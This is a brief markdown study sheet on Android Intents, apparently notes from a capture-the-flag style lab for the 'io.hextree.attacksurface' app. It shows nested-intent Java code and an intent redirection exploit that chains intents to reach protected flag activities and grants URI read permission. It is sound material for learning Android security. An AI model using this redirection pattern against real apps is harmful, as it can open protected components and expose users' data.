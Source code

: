 # Intents

- [Interaction with Intents](#interaction-with-intents)
- [Attacks](#attacks)
    - [Intent Redirection](#intent-redirection)


## Interaction with Intents
- **Commands to interact with intents**
    - `intent.setClassName(<Package_Name>,<Class_Name>);`
    - `startActivity(<Intent_Name>)`
    - `<Intent_Name>.setAction(<Action_Name>)`

- **Nested Intents**
```java
Intent intent3 = new Intent();
intent3.putExtra("reason","back");

Intent intent2 = new Intent();
intent2.putExtra("return",42);
intent2.putExtra("nextIntent",intent3);

Intent intent1 = new Intent();
intent1.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");
intent1.putExtra("android.intent.extra.INTENT",intent2);
startActivity(intent1);
```




## Attacks
### Intent Redirection
- If we can control the intent input of the startActivity() function, it may lead to an intent redirection vulnerability.
```java
// Redirect to flag6 Activity
Intent intent3 = new Intent();
intent3.putExtra("reason","next");
intent3.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
intent3.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag6Activity");

Intent intent2 = new Intent();
intent2.putExtra("return",42);
intent2.putExtra("nextIntent",intent3);

Intent intent1 = new Intent();
intent1.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.activities.Flag5Activity");
intent1.putExtra("android.intent.extra.INTENT",intent2);
startActivity(intent1);
```

> [!NOTE]
> `FLAG_GRANT_READ_URI_PERMISSION`: If set, the recipient of this Intent will be granted permission to perform read operations on the URI in the Intent's data and any URIs specified in its ClipData.